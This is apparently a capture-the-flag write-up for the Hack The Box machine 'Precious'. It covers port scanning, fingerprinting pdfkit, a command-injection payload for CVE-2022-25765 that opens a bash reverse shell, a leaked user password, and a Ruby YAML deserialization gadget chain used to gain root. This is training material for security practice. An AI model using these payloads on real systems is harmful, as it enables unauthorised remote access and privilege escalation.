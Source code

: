 # Precious

## Enumeration

Start off with an nmap scan:

```vim
# Nmap 7.93 scan initiated Sun Dec  4 09:59:28 2022 as: nmap -Pn -n -v -p 22,80 -sV -sC --open -oA precious 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  4 09:59:42 2022 -- 1 IP address (1 host up) scanned in 13.91 seconds
```

We can see that there is a redirect to `precious.htb` , so we will have to add an entry for it in our `/etc/hosts` file.

Looking at the webpage, we see a "Convert Web Page to PDF" website. There is no mention of what application is being used to perform this action but I decided to capture a request from it using `nc -lvnp 9000` and entering `http://<IP>:9000` as the URL in the webpage. I got back the following response:

```vim
┌──(kali㉿kali)-[~/precious]
└─$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.14.87] from (UNKNOWN) [10.10.11.189] 45064
GET / HTTP/1.1
Host: 10.10.14.87:9000
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
```

You can also fingerprint the application being used via running a python web server using `python -m http.server` and by using `exiftool` on the downloaded PDF:

```vim
┌──(kali㉿kali)-[~/Downloads]
└─$ exiftool 52a8u7bk8alo1vkalg2juu5qxxivwgif.pdf 
ExifTool Version Number         : 12.51
File Name                       : 52a8u7bk8alo1vkalg2juu5qxxivwgif.pdf
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2022:12:10 04:55:33-05:00
File Access Date/Time           : 2022:12:10 04:55:33-05:00
File Inode Change Date/Time     : 2022:12:10 04:55:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

## Exploit

Looking for vulnerabilities, we come across this link: [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

We can test out this vulnerability via the following payload in the URL textfield: ```http://example.com/?name=#{'%20`sleep 5`'}```

```http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"`'}```

This will land you a reverse shell as the user `ruby`. In ruby's home directory, you can find the credentials for `henry` in .bundle/config:
```vim
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

We can log in with `su henry` and enter the password.

User flag is in : `/home/henry/user.txt`

## Priv-Esc

Running `sudo -l` will give us the following:

```vim
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

looking into this file, we see the following:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

This file is trying to load a file called `dependencies.yml` and then trying to compare the dependencies between what it has installed and `dependencies.yml` . 

Here, the function `YAML.load()` is taking in `dependencies.yml` which we could edit as we wish. Hence I start looking for any vulnerabilities in `YAML.load` and come across the following: [Blind RCE via YAML deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) 

Create a file called `dependencies.yml` and enter the following into it:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Run `sudo /usr/bin/ruby /opt/update_dependencies.rb` and then run `bash -p`

Root flag will be in `/root/root.txt`
